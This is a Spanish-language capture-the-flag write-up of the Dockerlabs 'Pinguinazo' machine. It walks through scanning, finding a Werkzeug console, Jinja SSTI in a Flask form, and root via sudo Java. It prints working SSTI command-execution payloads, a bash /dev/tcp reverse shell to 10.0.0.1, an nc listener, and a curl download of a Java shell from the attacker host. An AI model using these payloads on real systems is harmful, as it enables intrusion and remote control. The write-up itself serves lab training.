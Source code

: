 # Pinguinazo

Pequeño CTF en modo **easy** de Dockerlabs.

- [Reconocimiento](#reconocimiento)
- [Escaneo](#escaneo)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

<br/>

---

## Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Dado que la dirección IP es conocida o fácilmente identificable dentro de este entorno controlado, esta fase se clasifica como **reconocimiento pasivo**.

![Reconocimiento](https://i.imgur.com/rs4PSAQ.png)

<br/>

---

## Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **5000** abierto.
- Servicio en ejecución: aplicación Python con **Flask** y referencias a **Werkzeug**.

![Scan1](https://i.imgur.com/6UnWPSU.png)  
![Scan2](https://i.imgur.com/fZBZZWQ.png)

Incluso se observó la dirección MAC del objetivo.

<br/>

---

## Enumeración

El siguiente paso fue buscar directorios y recursos ocultos.

Con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado fue limitado, por lo que se usó **dirb**, que reveló un recurso interesante:

![Dirb](https://i.imgur.com/FrTLh5h.png)

Se identificó `/console`, correspondiente a la **consola interactiva de Werkzeug**.  
En el código fuente de la web se encontraron datos sensibles como la **SECRET**, probablemente utilizada en la generación del PIN de acceso.

![Werkzeug1](https://i.imgur.com/qZt5KIJ.png)  
![Werkzeug2](https://i.imgur.com/C0b9r7G.png)

Además, la página principal contenía un formulario muy básico, con los siguientes puntos débiles:

- Input de correo en modo _readOnly_ (correo de administrador expuesto).
- Inputs sin validaciones (no requeridos).
- El campo _nombre_ parece usarse directamente como parámetro en el renderizado.

![Form1](https://i.imgur.com/KI8LbEo.png)  
![Form2](https://i.imgur.com/hekE1S3.png)

<br/>

---

## Explotación

Se consideraron dos caminos:

1. **Bypass del PIN de Werkzeug**

   - Basado en parámetros como:
     - Usuario que ejecuta la app.
     - SECRET de la aplicación.
     - Dirección MAC de la máquina.
   - Existen scripts para generar posibles PINs, pero requieren tiempo y múltiples intentos válidos.

   ![Werkzeug Bypass](https://i.imgur.com/igjHHlp.png)

2. **Explotación del formulario principal**  
   Se probaron inyecciones:

   - **XSS**: `<script>alert('pwned');</script>`
   - **SSTI**: `{{ 2 * 8 }}`

   La inyección SSTI funcionó, confirmando vulnerabilidad en el render de templates.

![SSTI1](https://i.imgur.com/naclOMB.png)  
![SSTI2](https://i.imgur.com/0B2VOOy.png)

Ejemplo de payload ejecutando comandos del sistema:

```jinja
{{ config.__init__.__globals__['os'].popen('whoami').read() }}
```

Con Burp Suite (Repeater) se probó leer `/etc/passwd`:

![passwd1](https://i.imgur.com/rEyQTRG.png)  
![passwd2](https://i.imgur.com/aTAu5Gd.png)

✅ Quedó claro que la explotación vía SSTI era más directa y efectiva.

<br/>

---

### Reverse Shell

Se intentó una reverse shell usando la inyección SSTI. El payload exitoso fue:

```jinja
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen(
  'bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"').read() }}
```

**Consideraciones previas**:

- Definir la IP de escucha y puerto.
- Levantar el listener con:
  ```bash
  nc -lvnp 8080
  ```

![ReverseShell1](https://i.imgur.com/UZWpEfu.png)  
![ReverseShell2](https://i.imgur.com/QNAHOy2.png)

Con esto se obtuvo acceso inicial a la terminal.

<br/>

---

## Escalada de privilegios

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/3B74T7F.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/sudo` en la lista.  
Al ejecutar:

```bash
sudo -l
```

Se descubrió que la shell permitía ejecutar **Java** como root.

![SudoJava](https://i.imgur.com/nnztH1C.png)

Lo ideal sería aplicar una reverse shell ejecutada con sudo para optener los permisos de root, se consultó [reveshells]() para generar una donde se pueda acceder mediante sudo.

![SudoJava](https://i.imgur.com/3RroNqA.png)

**Nota**: Se tuvo en cuenta que no había una terminal interactiva en la máquina victima por lo que exportar TERM sería una opción sin embargo, en este caso se creó la shell desde máquina atacante y en la raiz del proyecto se ejecutó un `python3 -m http.server PORT` para servir el archivo.

Luego se obtuvo desde la máquina victima con `curl -O http://10.0.0.1:PORT/magic_shell.java`

Con la shell en la máquina victima se ejecutó con `sudo java magic_shell.java` y a pesar de generar warnings, se obtuvo la shell con el mítico _root_

![SudoJava](https://i.imgur.com/lgH3sZ1.png)

## ![SudoJava](https://i.imgur.com/wVFMqtT.png)
